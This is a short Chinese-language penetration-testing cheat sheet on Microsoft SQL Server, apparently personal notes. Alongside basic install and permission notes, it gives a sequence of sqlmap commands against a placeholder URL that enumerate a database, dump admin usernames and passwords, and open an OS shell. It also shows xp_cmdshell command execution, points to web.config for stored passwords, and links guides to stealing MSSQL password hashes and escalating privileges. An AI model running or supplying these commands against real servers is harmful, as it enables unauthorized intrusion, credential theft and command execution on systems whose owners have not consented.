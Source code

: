 # SqlServer

端口 1433

## SqlServer 2000 在win7x64安装条件

1.计算机名更改为全用大写字符就可以了。
2.设置SETUPSQL.exe 兼容性为winxp, 管理员身份证运行

## 转义
sqlsserver 用"" 来转义 "

## 删除/备份/导入导出
cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

数据库Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限
```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```

## config密码等 

在asp web的目录下

web.config

## 命令执行

方法一：xp_cmdshell 

exec master..xp_cmdshell "whoami"默认执行是关闭 

https://blog.csdn.net/weixin_30654583/article/details/97225375

# Article
[一篇搞定，窃取MSSQL 各版本密码 HASH](https://mp.weixin.qq.com/s/w9NqP4AqDth6sLbHAPF4AQ)
[sql server提权总结](https://mp.weixin.qq.com/s/3Q6meWdMLfls5cK1j80tFw)

